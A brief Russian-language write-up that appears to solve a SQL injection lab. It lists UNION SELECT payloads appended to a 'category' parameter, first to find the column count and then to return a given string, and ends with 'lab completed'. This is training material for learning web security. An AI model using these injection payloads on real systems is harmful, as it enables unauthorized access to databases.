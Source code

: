 1) Добавляем к "category" '+UNION+SELECT+NULL,NULL,NULL-- (Простым подбором)
2) Добавив '+UNION+SELECT+NULL,'a',NULL-- , по инструкции понимаем, что нужно вместо 'a' вписать La3jXz
3) Получаем добавление '+UNION+SELECT+NULL,'La3jXz',NULL--
4) Лаборатория выполнена
